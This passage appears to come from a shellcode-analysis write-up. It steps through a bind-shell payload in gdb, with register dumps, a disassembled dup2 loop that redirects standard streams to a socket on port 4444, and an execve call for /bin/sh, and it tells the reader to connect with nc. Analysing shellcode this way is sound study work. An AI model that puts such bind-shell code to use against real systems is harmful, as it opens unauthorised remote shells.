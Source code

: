 ```shell
r12            0x400470	4195440
r13            0x7fffffffdca0	140737488346272
r14            0x0	0
r15            0x0	0
rip            0x601099	0x601099 <code+57>
eflags         0x202	[ IF ]
cs             0x33	51
ss             0x2b	43
ds             0x0	0
es             0x0	0
fs             0x0	0
gs             0x0	0
```

At this point we have to connect with `nc` on port `4444` in order to continue.

By disassembling the program we can see that there is a loop executing the `dup2` syscall (number `33`) in order to redirect everything to the socket connected. This syscall takes 2 arguments: `oldfd` and `newfd`. `oldfd` is the return value from the `accept` syscall (`RDI` register) and `RSI` has the values `2`, `1` and `0` in each `dup2` execution for `STDERR`, `STDOUT` and `STDIN` respectively.

```shell
(gdb) disassemble 
Dump of assembler code for function code:
<snip>
   0x000000000060108e <+46>:	xchg   rdi,rax
   0x0000000000601090 <+48>:	push   0x3
   0x0000000000601092 <+50>:	pop    rsi
   0x0000000000601093 <+51>:	dec    rsi
   0x0000000000601096 <+54>:	push   0x21
   0x0000000000601098 <+56>:	pop    rax
=> 0x0000000000601099 <+57>:	syscall
   0x000000000060109b <+59>:	jne    0x601093 <code+51>
<snip>
```

**6<sup>th</sup> syscall**

```shell
(gdb) c
Continuing.

Breakpoint 7, 0x00000000006010b4 in code ()
(gdb) info registers
rax            0x3b	59
rbx            0x68732f6e69622f	29400045130965551
rcx            0x400474	4195444
rdx            0x0	0
rsi            0x7fffffffdb88	140737488345992
rdi            0x7fffffffdb98	140737488346008
rbp            0x7fffffffdbc0	0x7fffffffdbc0
rsp            0x7fffffffdb88	0x7fffffffdb88
r8             0x0	0
r9             0x15	21
r10            0x0	0
r11            0x346	838
r12            0x400470	4195440
r13            0x7fffffffdca0	140737488346272
r14            0x0	0
r15            0x0	0
rip            0x6010b4	0x6010b4 <code+84>
eflags         0x246	[ PF ZF IF ]
cs             0x33	51
ss             0x2b	43
ds             0x0	0
```